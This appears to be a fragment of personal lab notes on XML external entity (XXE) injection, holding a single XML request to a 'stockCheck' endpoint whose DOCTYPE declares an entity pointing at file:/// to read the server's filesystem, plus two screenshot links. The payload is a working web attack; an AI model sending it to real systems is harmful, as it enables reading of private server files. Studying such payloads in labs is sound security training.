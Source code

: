 f06eab77-7d67-4cb1-9dfe-b5d11c509a0d.xTPRjHh7IxqFSaWVXjOsP_n5LBM

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
	
![390a89841f078c79f81459238e6aff4d.png](../../_resources/390a89841f078c79f81459238e6aff4d.png)

![7344e213502ccd3c96c201cecbdd0798.png](../../_resources/7344e213502ccd3c96c201cecbdd0798.png)
